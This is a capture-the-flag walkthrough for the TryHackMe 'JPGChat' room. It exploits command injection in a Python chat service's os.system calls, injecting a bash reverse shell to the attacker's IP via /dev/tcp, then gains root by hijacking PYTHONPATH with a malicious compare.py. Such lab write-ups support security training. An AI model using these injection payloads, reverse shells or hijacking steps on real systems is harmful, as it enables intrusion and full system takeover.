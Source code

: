 # [JPGChat][1]
Exploiting poorly made custom chatting service written in a certain language...

Umm, certain language, ssly?! Logo says it all :stuck_out_tongue_winking_eye:

### RECON

Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Nmap Scan](images/nmap_scan.jpg)

Looks like we have two ports open: `22, 3000`

Let's check `port 3000` in browser.

![Browser](images/browser.jpg)

Hmm, source code is available on GitHub! Time for *OSINT*.

### OSINT

> Search on GitHub, for *jpgchat*.

![Search GitHub](images/github_search.jpg)

Second one looks promising as its description says `on THM`.

GitHub Link - https://github.com/Mozzie-jpg/JPChat/

```
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

### PREP

Looking at the code. There are `os.system` commands.

```
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

> The `os.system` is used to *echo* the input from **[REPORT]** to a text file. It is using `%s` and there is NO CHECKS for input, we can exploit this by using `;` to close the echo command and use the famous one liner BASH command.

Bash Command - `bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1;`

Also, before starting **netcat** connection. We will first listen on a port by using `nc -lvnp 4444`

![Listener](images/netcat_listen.jpg)

Now we will connect to the port using **netcat** by `nc <IP> 3000` in another terminal.

> We will type **[REPORT]** to input username. (I went to message first. Just ignore that part and directly type [REPORT]).


### EXPOLIT

The input looks like this `;<bash_script>;`. So `hi;bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1;`

> I typed `hi` to check if the line is executed or not. You can directly write `;` and the script.

Type anything when ask for *your report*. You will see your message you typed before.

![Bash Code](images/bash_one_liner.jpg)

Go back to your netcat listener and you will see successful connection.

![Connection Successful](images/got_connection.jpg)

Now just do `cd ~` and you will be in the home directory. You know what to do next :wink:

![User Flag](images/user_flag.jpg)


### PRIVILEGE ESCALATION

First let's see what are commands we can run using `sudo -l`.

![Commands](images/sudo_l.jpg)

So this tells us two things.
1. We have access to mail_badpass and PYTHONPATH variable.
2. We can run this python file. `/opt/development/test_module.py`

Let's execute this Python file.

![Run Python File](images/run_script.jpg)
> It gives True. Let's see the content of the file.

Checking the content of the file.

![Check Python Code](images/check_file.jpg)

> Seems like it is importing python module called **compare**. Also it is importing everything from ***compare.py*** file as there is a `*`.

How about we create our own `compare.py` file and add that directory to `PYTHONPATH` variable. Then run this file again as a root user. As show it says ***(root)***.

So for the content of the python file, we can use *subprocess* library and call `/bin/sh` to get the shell as ROOT.

***Python Code:***

```
import subprocess

subprocess.call(['/bin/sh', '-i'])
```

As we are is **wes's home directory**  and we have permission to create/write to a file. We can do

`echo 'import subprocess;subprocess.call(['/bin/sh', '-i'])' > compare.py`

![Create Python File](images/create_compare.jpg)

Now that we have a file. We can add this directory to PYTHONPATH.

`export PYTHONPATH=/home/wes/`

![Change PYTHONPATH variable](images/change_python_path.jpg)

Let's run the PYTHON file once again but as a  `root`

![Run Script](images/run_edited_script.jpg)

BOOM!! We have a shell with ***ROOT privilege***. You can confirm the same by `whoami`.

You know where to find the ROOT flag.

![Root Flag](images/root_flag.jpg)


[1]: https://tryhackme.com/room/jpgchat
[2]: https://blog.hackhunt.in/search/label/Nmap
